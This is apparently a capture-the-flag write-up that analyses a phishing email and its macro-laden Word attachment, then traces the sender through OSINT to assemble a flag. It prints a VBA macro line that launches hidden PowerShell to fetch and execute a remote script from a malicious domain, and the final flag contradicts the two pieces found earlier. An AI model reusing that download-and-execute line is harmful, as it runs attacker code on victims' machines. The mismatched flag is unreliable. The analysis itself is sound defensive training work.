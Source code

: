 ### InfraBroken :

# Description :

>An attacker sends a phishing email disguised as a legitimate notification about a package arrival. The email instructs the recipient to click on a link to view an invoice and product details, which is actually a malicious attempt to steal sensitive information or install malware on the victim's machine !!!

> Author : Mr_Togoo

> Attachments : [crime.eml](https://www.mediafire.com/file/lcso0oy3pjqo3kd/crime.eml/file)

During the analysis of the email, we identified the user who sent the email and the link to the document.



    1- user : aymanetogoo@gmail.com
    2- document : Product_details.docm


![email](https://github.com/user-attachments/assets/3a918e61-9b5d-414c-b2a2-f81da4c3b1f3)



    We installed the document Product_details.docm and analyzed it with 'olevba'.



![Product](https://github.com/user-attachments/assets/6c5fb5f5-58b9-4762-a2dd-c2b06f3b5fd5)


We obtained this output:

`Set objShell = CreateObject("WScript.Shell")
`objShell.Run "cmd.exe /c powershell -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command iex (New-Object Net.WebClient).DownloadString('http://bericht-belastingdienst.com/good_news.vbs')", 0, False`

1. When checking the reputation of the domain bericht-belastingdienst.com, we found it to be very malicious.

![virustotal](https://github.com/user-attachments/assets/0df2e53a-ba87-4b64-8d26-3bd5420be93b)
And here, we obtained the first part of the flag.

`CSP{5om3tim35_th3_thing5`


2. Now, we need to check the user who sent the email and perform some OSINT to see if they have other social media accounts.
   
   

![github](https://github.com/user-attachments/assets/12a503ff-2b4b-488f-ba71-851f9a74c61f)
3. So, he has a GitHub account and a repository named `Important`
   

![github2](https://github.com/user-attachments/assets/0e78a70a-74b0-4e17-9448-0ee7c53229e3)

![github3](https://github.com/user-attachments/assets/22ec982a-98ca-4f6c-a1bf-18b5e838de6a)
4.  When you enter GitHub, you don't find the flag immediately. You need to check the history of the comments to find it.

   `_4r3_34Sy_but_l4h_yhdin4}`

5. So, the full flag is

FLAG : 
>CSP{DN5_G00D_T0_3XF1L7R3_V1A_53CUR3_CH4NN3L5_4ND_L4H_YT9ABL_SY4MNA}

**Note** : These pieces of information were not found because I removed my comment in VirusTotal and the user on GitHub.
